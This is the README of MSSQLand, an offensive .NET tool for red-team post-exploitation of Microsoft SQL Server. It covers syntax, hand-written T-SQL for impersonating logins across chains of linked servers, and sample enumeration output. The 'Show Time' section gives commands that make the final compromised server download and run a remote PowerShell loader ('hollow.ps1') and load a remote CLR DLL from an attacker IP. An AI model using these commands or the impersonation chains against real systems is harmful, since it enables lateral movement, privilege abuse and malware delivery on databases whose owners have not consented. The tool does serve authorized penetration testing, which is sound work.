

# ✈️ MSSQLand

Land gracefully in your target Microsoft SQL Server (MS SQL) DBMS, as if arriving on a business-class flight with a champagne glass in hand. 🥂

<p align="center">
    
</p>

MSSQLand is built for interacting with [Microsoft SQL Server](https://en.wikipedia.org/wiki/Microsoft_SQL_Server) database management system (DBMS) during your red team activities or any security audit. Designed **for constrained environments** where operations must be executed directly through your beacons, **using assembly execution** it allows you to pave your way across multiple linked servers and impersonate whoever you can along the way, emerging from the last hop with any desired action.

> [!TIP]
> MSSQLand is built using `.NET Framework 4.8`, with assembly execution in mind. If you need to connect using Kerberos ticket or NT/LM hashes, go with [mssqlclient-ng](https://github.com/n3rada/mssqlclient-ng), the `Python3` version built with external access from Unix in mind.

> [!NOTE]
> Do not forget the basics. During a security assessment, it is sometimes easier to use [SQL Server Management Studio (SSMS)](https://learn.microsoft.com/en-us/ssms/).

## 🚀 Quick Start

```shell
MSSQLand.exe <host> [options] <action> [action-options]
```

Format: `server,port:user@database` or any combination `server:user@database,port`.
- `server` (required) - The SQL Server hostname or IP
- `,port` (optional) - Port number (default: 1433, also common: 1434, 14333, 2433)
- `:user` (optional) - User to impersonate on this server
- `@database` (optional) - Database context (defaults to 'master' if not specified)

```shell
MSSQLand.exe localhost -c token info
MSSQLand.exe localhost,1434@db03 -c token info
```

> [!IMPORTANT]
> The **host** (first argument) and **action** (after flags) are positional arguments. All flags use `-` prefix. For example: `localhost -c token createuser -p p@ssword!` - here `-p` belongs to the action, not the global arguments.

**Common options:**
- `--timeout 30` - Connection timeout in seconds (default: 15)
- `-l SERVER1:user1,SERVER2:user2@dbclients` - Chain through linked servers (uses configured linked server names)

> [!NOTE]
> Port specification (`,port`) only applies to the initial host connection. Linked server chains (`-l`) use the linked server names as configured in `sys.servers`, not `hostname:port` combinations.

**Format examples:**
```shell
# Simple: connect to SQL01 using master database
MSSQLand.exe SQL01 -c token info

# Custom port: connect to SQL01 on port 1434
MSSQLand.exe SQL01,1434 -c token info

# Impersonate user: connect to SQL01, impersonate webapp01, use master database
MSSQLand.exe SQL01:webapp01 -c token info

# Port with impersonation: connect to SQL01:1434, impersonate webapp01
MSSQLand.exe SQL01,1434:webapp01 -c token info

# Specify database: connect to SQL01, use myapp database (no impersonation)
MSSQLand.exe SQL01@myapp -c token info

# Full format: connect to SQL01:1434, impersonate webapp01, use myapp database
MSSQLand.exe SQL01,1434:webapp01@myapp -c token info

# Linked servers (using configured linked server names, not hostname:port)
MSSQLand.exe SQL01 -c token -l SQL02:webapp02@appdb,SQL03:webapp03@analytics,SQL04@proddb links

# Mixed linked servers (some with database, some without)
MSSQLand.exe SQL01 -c token -l SQL02:webapp02,SQL03:webapp03@mydb,SQL04@reporting links
```

## 🫤 Help

- `-h` or `--help` - Show all available actions
- `-h search_term` - Filter actions (e.g., `-h adsi` shows all ADSI-related actions)
- `localhost -c token createuser -h` - Show detailed help for a specific action

## 📸 Clean Output for Clean Reports

The tool's output, enriched with timestamps and valuable contextual information, is designed to produce visually appealing and professional results, making it ideal for capturing high-quality screenshots for any of your reports (e.g., customer deliverable, internal report, red team assessments).

All output tables are Markdown-friendly and can be copied and pasted directly into your notes without any formatting hassle.



> [!TIP]
> You can also have `.csv` compatible output by using the `-o csv` option: `MSSQLand.exe localhost -c token -o csv procedures > procedures.csv`

## 👑 Show Time

You gain access to a database `SQL01` mapped to the user `dbo`. You need to impersonate `webapp02` in order to connect to linked database `SQL02`. In `SQL02`, you need to impersonate `webapp03` in order to go further and so on and so forth. Let's say you’ve landed an agent inside a `sqlservr.exe` process running under the high-privileged `NT AUTHORITY\SYSTEM`. Lucky you!

After some reconnaissance, you suspect this is a multi-hop linked server chain. Typing out all those **RPC** or **OPENQUERY** calls manually? 

This is what it looks like to verify if you are `sysadmin` in `SQL03` when you have to impersonate `webapp03` on `SQL02` and `webapp04` on `SQL03`:

- [OPENQUERY](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_data_access_enabled`):

```sql
SELECT * FROM OPENQUERY([SQL02], 'EXECUTE AS LOGIN = ''webapp03''; SELECT * FROM OPENQUERY([SQL03], ''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') REVERT;')
```

- [RPC Out](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_rpc_out_enabled`):

```shell
EXEC ('EXECUTE AS LOGIN = ''webapp03''; EXEC (''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') AT [SQL03]; REVERT;') AT [SQL02]
```

No thanks 🚫. Let MSSQLand handle the heavy lifting so you can focus on the big picture. You've already impersonated multiple users on each hop, and now you want to enumerate links on `SQL04`:

```shell
.\MSSQLand.exe localhost:webapp02 -c token -l SQL02:webapp03,SQL03:webapp04,SQL04 links
```

The output is as follows:
```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone on SQL01 as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Logged in as webapp02
|-> Mapped to the user dbo
[i] Execution chain: SQL02 -> SQL03 -> SQL04
[i] Logged in on SQL04 as webapps
|-> Mapped to the user guest

[>] Executing action 'Links' against SQL04
|-> Retrieving Linked SQL Servers

| Last Modified        | Link  | Product    | Provider | Data Source | Local Login | Remote Login | RPC Out | OPENQUERY | Collation |
| -------------------- | ----- | ---------- | -------- | ----------- | ----------- | ------------ | ------- | --------- | --------- |
| 7/7/2020 1:02:17 PM  | SQL05 | SQL Server | SQLNCLI  | SQL05       | webapp05    | webapps      | True    | True      | False     |
```

Now you want to verify who you can impersonate at the end of the chain:
```shell
.\MSSQLand.exe localhost:webapp02 -c token -l SQL02:webapp03,SQL03:webapp04,SQL04 impersonate
```
The output shows:

```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Server chain: SQL02 -> SQL03 -> SQL04
[i] Logged in as webapps
|-> Mapped to the user guest

[>] Executing action 'Impersonation' against SQL04
|-> Starting impersonation check for all logins
|-> Checking impersonation permissions individually

| Logins      | Impersonation |
| ----------- | ------------- |
| sa          | No            |
| MarieJo     | Yes           |
| Imane       | Yes           |
| John        | No            |
```

Great! Now you can directly reach out to your loader with:
```shell
.\MSSQLand.exe localhost:webapp02 -c token -l SQL02:webapp03,SQL03:webapp04,SQL04:MarieJo pwshdl "172.16.118.218/d/g/hollow.ps1"
```

Or even use Common Language Runtime (CLR) to load remotely a library with:
```shell
.\MSSQLand.exe localhost:webapp02 -c token -l SQL02:webapp03,SQL03:webapp04,SQL04:MarieJo clr "http://172.16.118.218/d/SqlLibrary.dll"
```

## 🤝 Contributing 

Contributions are welcome and appreciated! Whether it's fixing bugs, adding new features, improving the documentation, or sharing feedback, your effort is valued and makes a difference.
Open-source thrives on collaboration and recognition. Contributions, large or small, help improve the tool and its community. Your time and effort are truly valued. 

Here, no one will be erased from Git history. No fear to have here. No one will copy-paste your code without adhering to the collaborative ethos of open-source.

Please see the [CONTRIBUTING.md](./CONTRIBUTING.md) for detailed guidelines on how to get started.

## 🥚 Origin

MSSQLand was born from real-world needs and hard-earned lessons.

Originally, I contributed extensively to [SQLRecon](https://github.com/skahwah/SQLRecon), which provided a solid foundation for MS SQL post-exploitation and reconnaissance. However, during my contributions to SQLRecon, particularly in addressing [chained linked server traversal](https://github.com/skahwah/SQLRecon/issues/16#issuecomment-2048435229) and enhancing user impersonation, I encountered significant roadblocks in how contributions were handled. [My pull request](https://github.com/skahwah/SQLRecon/pull/17), which introduced major improvements in impersonation, chaining, and context management, was ultimately not merged but copy pasted.

Rather than let this work go to waste, I decided to develop MSSQLand, an OOP-driven, modular, and community-friendly alternative. Unlike SQLRecon, which required deep refactoring to make simple modifications, MSSQLand was built with developers in mind. The tool is built with extensibility in mind, allowing integration of new features while maintaining clarity and simplicity. It aims to provide a structured, customizable, and operator-friendly experience for engagements requiring MS SQL exploitation.

## ⚠️ Disclaimer

**This tool is provided strictly for defensive security research, education, and authorized penetration testing.** You must have **explicit written authorization** before running this software against any system you do not own.

This tool is designed for educational purposes only and is intended to assist security professionals in understanding and testing the security of SQL Server environments in authorized engagements.

Acceptable environments include:
- Private lab environments you control (local VMs, isolated networks).  
- Sanctioned learning platforms (CTFs, Hack The Box, OffSec exam scenarios).  
- Formal penetration-test or red-team engagements with documented customer consent.

Misuse of this project may result in legal action.

## Legal Notice
Any unauthorized use of this tool in real-world environments or against systems without explicit permission from the system owner is strictly prohibited and may violate legal and ethical standards. The creators and contributors of this tool are not responsible for any misuse or damage caused.

Use responsibly and ethically. Always respect the law and obtain proper authorization.
